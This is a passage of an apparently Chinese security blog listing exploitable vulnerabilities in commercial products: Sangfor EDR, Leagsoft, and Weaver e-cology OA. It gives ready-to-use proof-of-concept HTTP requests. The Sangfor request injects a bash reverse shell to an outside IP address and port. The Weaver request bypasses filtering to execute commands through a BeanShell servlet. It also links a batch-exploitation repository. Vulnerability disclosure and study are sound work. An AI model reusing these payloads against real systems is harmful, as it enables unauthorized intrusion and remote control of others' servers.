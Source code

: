 &emsp;&emsp;网上已经放出批量利用方法了，如[https://github.com/A2gel/sangfor-edr-exploit](https://github.com/A2gel/sangfor-edr-exploit)。

### sangfor EDR RCE漏洞

&emsp;&emsp;利用POC：
```
post /api/edr/sanforinter/v2/cssp/slog_client?token=ssskbkds HTTP/1.1

{"params":"w=123\"'1234123'\"|bash -i >/dev/tcp/167.179.118.219/8899 0>&1"}
```

![](/img/HW-Vuln/HW12.png)

![](/img/HW-Vuln/HW13.png)

### 联软科技产品存在任意文件上传和命令执行漏洞

&emsp;&emsp;任意文件上传漏洞，存在于用户自检报告上传时，后台使用黑名单机制对上传的文件进行过滤和限制，由于当前黑名单机制存在缺陷，文件过滤机制可以被绕过，导致存在文件上传漏洞；利用该漏洞可以获取webshell权限。

&emsp;&emsp;命令执行漏洞，存在于后台资源读取过程中，对于自动提交的用户可控参数没有进行安全检查，可以通过构造特殊参数的数据包，后台在执行过程中直接执行了提交数据包中的命令参数，导致命令执行漏洞；该漏洞能够以当前运行的中间件用户权限执行系统命令，根据中间件用户权限不同，可以进行添加系统账户，使用反弹shell等操作。

### 泛微OA Bsh 远程代码执行漏洞

&emsp;&emsp;2019年9月17日泛微OA官方更新了一个远程代码执行漏洞补丁，泛微e-cology OA系统的Java Beanshell接口可被未授权访问，攻击者调用该Beanshell接口，可构造特定的HTTP请求绕过泛微本身一些安全限制从而达成远程命令执行，漏洞等级严重。

&emsp;&emsp;利用POC：

```
POST /weaver/bsh.servlet.BshServlet HTTP/1.1
Host: xxxxxxxx:8088
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 98
Content-Type: application/x-www-form-urlencoded


bsh.script=eval%00("ex"%2b"ec(\"whoami\")");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw
```
